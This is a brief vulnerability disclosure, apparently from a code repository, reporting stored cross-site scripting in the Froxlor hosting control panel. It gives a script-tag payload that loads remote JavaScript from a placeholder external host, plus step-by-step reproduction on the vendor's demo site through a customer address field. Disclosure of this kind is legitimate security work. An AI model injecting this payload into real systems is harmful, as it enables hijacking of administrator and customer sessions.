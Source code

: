 # Description
The server administration software for your needs. Developed by experienced server administrators, this panel simplifies the effort of managing your hosting platform.
this pakage is vulnerable for xss

# Payload USED
```
<script src=https://domain></script>
```
# POC
* used https://demo.froxlor.org/ for testing
* login to admin account
* In customers account click on settings and update the address column with the payload and save the updates made.
* then just login to customer ac
* XSS triggered.
# PermaLinks
[gdive](https://drive.google.com/drive/folders/1D2wIlsZGDnhFdm2W51fDrDwogkHI7kBd?usp=sharing)
